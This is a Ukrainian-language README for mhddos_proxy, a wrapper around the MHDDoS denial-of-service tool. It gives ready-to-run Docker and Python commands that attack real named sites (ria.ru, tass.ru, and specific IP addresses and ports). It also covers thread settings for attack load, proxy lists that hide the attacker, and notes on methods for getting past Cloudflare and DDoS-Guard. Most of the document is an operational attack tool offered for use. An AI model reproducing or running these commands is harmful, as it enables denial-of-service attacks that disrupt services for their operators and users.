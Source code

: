 Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не потребує VPN** - скачує і підбирає робочі проксі для атаки (доступний режим `--vpn` за бажанням)
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різноманітні методи для атаки**

### ⏱ Останні оновлення

- **09.04.2022** Нова система проксі - тепер кожен отримує ~200 проксі для атаки з загального пулу ~6000 штук. Параметри `-p` (`--period`) та `--proxy-timeout` більше не використовуються
- **04.04.2022** Додано можливість використання власного списку проксі для атаки - [інструкція](#власні-проксі)
- **03.04.2022** Виправлена помилка Too many open files (дякую, @kobzar-darmogray та @euclid-catoptrics)

<details>
  <summary>📜 Раніше</summary>

- **02.04.2022** Робочі потоки більше не перезапускаються на кожен цикл, а використовуються повторно. Також виправлена робота Ctrl-C
- **01.04.2022** Оновленно метод CFB у відповідності з MHDDoS. [Див. примітки нижче](#-попередження-щодо-деяких-методів-атаки)
- **31.03.2022** Додано надійні DNS сервери для резолвінгу цілі, замість системних. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).
- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - кількість потоків, за замовчуванням - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 🐳 Комьюніті
- [Детальний розбір MHDDoS_proxy](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md)
- [Utility for converting shared targets into config format](https://github.com/kobzar-darmogray/mhddos_proxy_utils)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)

### 🚨 Попередження щодо деяких методів атаки
Метод **BYPASS** - це повільна версія методу GET, має сумнівну ефективність через відсутність помітної реалізації обходу захисту.

Метод **CFB** - може обійти лише незначну частину захисту деяких сайтів, повна реалізація потребує вирішення CAPTCHA,
а також доступу до платної версії бібліотеки яку не можливо буде включити до складу mhddos_proxy (через відкритий код).  
Метод **DGB** - успішні запити залежать не від самої реалізації (вона не працює), а від "чистоти" IP-адреси.  
Наразі не існує надійної open-source реалізації обходу Cloudflare та DDoS-Guard.  
Еффективнішим буде пошук оригінальних серверів цілі або атака методами за замовчуванням.

Метод **BOMB** потребує значно більше RAM - зменшіть значення `-t`.  
Також потребує додаткових налаштувань при запуску через python - звертайтеся
до [документації MHDDoS](https://github.com/MHProDev/MHDDoS).

Метод **KILLER** може мати непередбачувані наслідки для вашої системи - використання на власний ризик.

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Disable proxies to use VPN
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path to file with proxies to use
      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, POST, STRESS, BOT, PPS)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

### Власні проксі

#### Формат файлу:

    114.231.123.38:1234
    114.231.123.38:3065:username:password
    username:password@114.231.123.38:3065
    socks5://114.231.155.38:5678
    socks5://114.231.155.38:5678:username:password
    socks4://username:password@114.231.123.38:3065

#### Віддалений файл (однаково для Python та Docker)

    python3 runner.py --proxies https://pastebin.com/raw/UkFWzLOt https://ria.ru

#### Для Python

Покладіть файл поруч з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

#### Для Docker
Потрібно монтувати volume щоби Docker мав доступ до файлу.  
Обов'язково вказувати абсолютний шлях до файлу і не загубити `/` перед іменем файлу

    docker run -it --rm --pull always -v /home/user/ddos/mhddos_proxy/proxies.txt:/proxies.txt ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --proxies /proxies.txt https://ria.ru
